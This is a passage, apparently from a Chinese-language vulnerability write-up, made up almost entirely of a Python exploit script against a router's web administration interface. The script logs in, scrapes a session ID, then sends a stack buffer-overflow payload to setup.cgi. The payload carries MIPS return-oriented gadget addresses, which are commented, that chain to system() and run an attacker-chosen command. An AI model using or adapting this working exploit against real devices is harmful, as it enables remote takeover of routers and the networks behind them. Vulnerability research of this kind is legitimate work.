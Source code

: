 ```
        print("[-] Login failed!")
        exit(0)

defget_sid(sessionid):
    headers = {
        "Authorization" : auth,
        "Cookie" : sessionid
    }
    get_sid = requests.get(url + "fw_rules.htm",headers = headers)
    sid = re.findall(r'\?id=[a-f0-9]+', get_sid.content.decode("utf-8"))
    return sid[0]

defattack(sessionid):
    attackurl = url + "setup.cgi" +  get_sid(sessionid)   
    payload = "a" * 376
    payload += "%e4%2c%59%55"# ra = 0x55592ce4: addiu $a0, $a0, -0x60; lw $ra, 0x1c($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x20; 
    payload += "b" * 0x1c
    payload += "%50%76%56%55"# ra = 0x55567650: la $t9, system; nop; jalr $t9; nop;
    payload += "c" * 8
    payload += "%0a{}%0a".format(command)
    pad = 500 - (len(payload) - 4)  
    if(pad >= 0):
        payload += "c" * pad # pad len to 500
        print("[+] Attack start")
        print(attackurl,payload)
        data = "save=Apply&service_list=" + payload + "&fwout_action=0&fwout_laniptype=anyip&fwout_waniptype=anyip&fwout_logging=1&h_fwout_action=0&h_fwout_laniptype=anyip&h_fwout_waniptype=anyip&h_fwout_logging=1&h_service_list=AIM&c4_lan_start_ip=192.168.1.NaN&c4_lan_finish_ip=192.168.1.NaN&c4_wan_start_ip=&c4_wan_finish_ip=&h_ruleSelect=0&edit=0&todo=save&this_file=rule_out.htm&next_file=BKS_service_add.htm&SID="
        headers = {
            "Cookie" : sessionid,
            "Authorization" : auth
        }   
        r = requests.post(url = attackurl,data = data,headers = headers)
        if r.status_code:
            print("[+] Attack success!, the result is:")
            print(r.content)
        else:
            print("[-] Attack failed!")
            exit(0)

sessionid = login()
attack(sessionid)

```  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZcPoSM8K5zTv5mKGtEl1j6UNH4r4gUwRdKR3E4xyLJHE1BWCGBjqkug/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ36BmQicqpu3fncvHYU5D6oqWstbLMmiaojtdhsatKYokXkgndicBPqsqA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
#   
# ref  
  
